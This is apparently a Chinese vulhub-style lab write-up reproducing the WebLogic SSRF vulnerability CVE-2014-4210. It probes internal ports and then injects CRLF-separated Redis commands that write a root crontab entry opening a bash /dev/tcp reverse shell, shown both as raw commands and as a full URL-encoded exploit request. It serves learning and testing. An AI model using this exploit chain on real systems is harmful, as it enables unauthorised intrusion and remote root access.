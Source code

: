 ```yaml
---
Title: Weblogic SSRF漏洞 CVE-2014-4210
---
```


# Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

<a-checkbox checked>Oracle WebLogic Server 10.0.2.0</a-checkbox></br>

<a-checkbox checked>Oracle WebLogic Server 10.3.6.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122010908-dfbdc992-8a59-4638-b56d-404f0b538c7e.png)

## 漏洞复现

出现漏洞的 URL为 : `http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122062901-5664349d-68fe-4128-a6d6-ec843fefd82d.png)



使用 payload 进行探测, 将探测的位置写在 operator参数中

<a-checkbox checked>注意需要知道内网 IP</a-checkbox></br>

```plain
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122076972-b0156bf5-41a6-4b62-9cc3-2d526f092083.png)

存在的报错内容如图，关键字为 `404` ,例如把 `operator` 参数改成 `http://xxx.xxx.xxx.xxx:7000` 这样不存在的则报错内容如下图

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122081877-63d635ee-e032-4d56-a627-27606bdf334f.png)



通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 `IP：172.19.0.2` 开启`6379端口的redis服务`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122086475-d48ce9eb-a76c-4daa-94b1-fce15687b76e.png)



如果访问的非http协议，则会返回`did not have a valid SOAP content-type`，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入`/etc/crontab` 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 `url编码`

<a-checkbox checked>注意，换行符是“\r\n”，也就是“%0D%0A”</a-checkbox></br>

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 `172.19.0.3 9999端口`等待反弹shell

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627122093990-acdd4a50-b1ff-493f-8c86-dcd2e1445641.png)